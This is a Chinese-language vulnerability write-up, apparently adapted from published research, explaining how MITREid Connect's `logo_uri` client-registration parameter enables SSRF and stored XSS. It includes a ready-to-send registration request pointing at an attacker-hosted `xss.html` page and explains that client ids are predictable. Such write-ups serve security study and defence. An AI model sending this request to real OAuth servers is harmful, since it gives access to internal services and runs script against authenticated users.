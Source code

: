
查看 source code，我們發現 `MITREid Connect` 使用 `logo_uri` 的方式如下:
- 在註冊過程中，client application 可指定其 `logo_uri` 參數
  - 該參數指向與 application 相關的圖片，`logo_uri` 可以是任意 URL
- 在授權步驟中，當 user 被要求批准新 application 的訪問請求時， authorization server 會發出 server-to-server 的 HTTP request，從 `logo_uri` 參數中下載圖片，緩存後與其他信息一起顯示給 user


當 user 訪問 `/openid-connect-server-webapp/api/clients/{id}/logo` endpoint 時
- 這個過程就會發生，並返回所獲取的 `logo_uri` 內容
- 具體來說，存在漏洞的 controller 位於 `org.mitre.openid.connect.web.ClientAPI#getClientLogo`

由於 server 不會檢查內容是否確實是圖片
- 因此攻擊者可能會濫用該功能來請求從 authorization server 訪問任何 URL 並顯示其內容，從而導致 SSRF 攻擊

由於 `getClientLogo` controller 不強制執行任何 image `Content-Type` header
- 攻擊者可以從自己的 URL 顯示任意 HTML 內容，因此該功能也可能被濫用來執行 XXS
  - 如果 HTML 包含 JavaScript，則會在 authorization server domain 內執行


**Exploit:**  
如上所述，我們需要發送 dynamic client registration request
- 在這情況，我們需要提供的最基本參數是 `redirect_uri` 和 `logo_uri`


```
POST /openid-connect-server-webapp/register HTTP/1.1
Host: local:8080
Content-Length: 118
Content-Type: application/json

{
  "redirect_uris": ["http://artsploit.com/redirect"],
  "logo_uri": "http://artsploit.com/xss.html"
}
```



針對 `"logo_uri": "http://artsploit.com/xss.html"` 發起 server-to-server request
- user 應該會被導到 `/api/clients/{client.id}/logo` 頁面


![](https://portswigger.net/cms/images/c1/73/1768-article-oauth1.png)  


訪問最後一個頁面需要低權限帳號
- 如果攻擊者能夠通過註冊獲得一個帳號，他們就可以使用該 endpoint 向 local server 發出任意 HTTP request 並顯示其結果


此外，這種攻擊還可用於對已通過身份驗證的 user 實施 XSS 攻擊
- 因為它允許在頁面上 inject 任意 JavaScript
- 如上例所示，惡意的 `"logo_uri": "http://artsploit.com/xss.html"` 可用於執行 `alert(document.domain)`



`{client.id}` 參數是與每個在 OAuth server 註冊的新 client 相關聯的遞增值
- 它可以在 client 註冊後取得，無需任何憑證
- 由於建立 server 時已經存在一個默認 client application，因此第一個動態註冊的 client 的 `client_id` 將為 `2`

